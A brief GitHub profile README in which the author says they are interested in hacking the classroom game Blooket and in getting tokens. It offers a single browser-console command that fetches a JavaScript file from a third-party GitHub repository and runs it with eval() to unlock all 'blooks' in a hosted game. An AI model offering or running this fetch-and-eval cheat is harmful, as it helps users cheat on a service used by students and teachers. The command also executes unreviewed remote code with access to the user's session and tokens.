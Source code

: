 - 👋 Hi, I’m @Puggypoh
- 👀 I’m interested in hacking blooket
- 🌱 I’m currently learning how to get tokens
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
This how you get blooks in a host game: fetch("https://raw.githubusercontent.com/glixzzy/blooket-hack/main/global/getAllBlooksInGame.js").then((res) => res.text().then((t) => eval(t)))

<!---
Puggypoh/Puggypoh is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

